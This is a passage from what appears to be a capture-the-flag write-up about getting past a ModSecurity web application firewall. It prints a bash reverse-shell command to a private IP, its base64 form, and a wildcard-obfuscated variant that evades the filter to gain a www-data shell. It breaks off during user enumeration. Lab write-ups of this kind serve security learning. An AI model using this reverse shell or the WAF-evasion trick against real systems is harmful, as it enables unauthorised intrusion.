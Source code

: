 As you can see, the code has no validation, so we try to create a revshell that ModSecurity can "swallow":

We create a simple revshell and encode it in base64:

`sh -i >& /dev/tcp/192.168.1.116/433 0>&1`

In base64:

`c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ==`

The idea is to execute:

`/bin/echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ== | base64 -d | /bin/bash -e`

If we execute it as is, it will show us a "Forbidden," but if we transform it with wildcard characters "?", for example:

`/???/e??o c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ== | base64 -d | /???/b??h -e`

We get a revshell with the user www-data.

## Lateral Movement to tester

Now we can enumerate system users

![img_p8_1](../../assets/images/yourwaf/img_p8_1.png)

We see a user: tester.

To which groups does www-data belong:
